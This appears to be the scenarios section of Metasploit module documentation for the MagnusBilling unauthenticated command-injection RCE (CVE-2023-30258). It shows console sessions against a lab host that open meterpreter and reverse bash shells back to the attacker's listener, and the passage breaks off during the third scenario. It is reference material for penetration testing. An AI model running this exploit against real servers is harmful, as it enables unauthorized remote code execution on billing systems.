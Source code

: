 ## Scenarios
###  MagnusBilling 7 on Debian 12.2 - PHP with payload php/meterpreter/reverse_tcp
```shell
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set rhosts 192.168.201.34
rhosts => 192.168.201.34
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.1 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.34
[+] Deleted LfsCVIttNL.php
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.34:46230) at 2023-10-24 10:26:47 +0000

meterpreter > getuid
Server username: asterisk
meterpreter > sysinfo
Computer    : debian
OS          : Linux debian 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64
Meterpreter : php/linux
meterpreter >
```
###  MagnusBilling 7 on Debian 12.2 - Unix Command with payload cmd/unix/reverse_bash
```shell
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set target 1
target => 1
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 2.1 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.34:46396) at 2023-10-24 17:09:45 +0000

uname -a
Linux debian 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
pwd
/var/www/html/mbilling/lib/icepay
```
###  MagnusBilling 7 on Debian 12.2 - Linux Dropper with payload linux/x64/meterpreter/reverse_tcp
```shell
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set target 2
target => 2
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
```
